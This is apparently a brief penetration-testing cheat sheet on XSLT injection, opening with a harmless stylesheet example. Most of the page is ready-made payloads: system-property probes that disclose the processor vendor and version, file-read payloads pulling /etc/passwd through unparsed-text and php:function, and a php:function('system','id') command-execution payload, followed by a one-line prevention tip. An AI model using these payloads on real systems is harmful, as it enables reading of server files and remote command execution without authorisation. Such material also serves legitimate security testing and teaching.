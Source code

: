## eXtensible Stylesheet Language Transformation (XSLT)


Examples:
```xslt
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	<xsl:template match="/fruits">
		Here are all the fruits:
		<xsl:for-each select="fruit">
			<xsl:value-of select="name"/> (<xsl:value-of select="color"/>)
		</xsl:for-each>
	</xsl:template>
</xsl:stylesheet>
```

#### Info disclosure

```xml
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

#### LFI
XSLT 2.0
```xml
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```
<2.0
```xml
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

##### RCE
```xml
<xsl:value-of select="php:function('system','id')" />
```


#### Prevention

Escape <, > and other symbols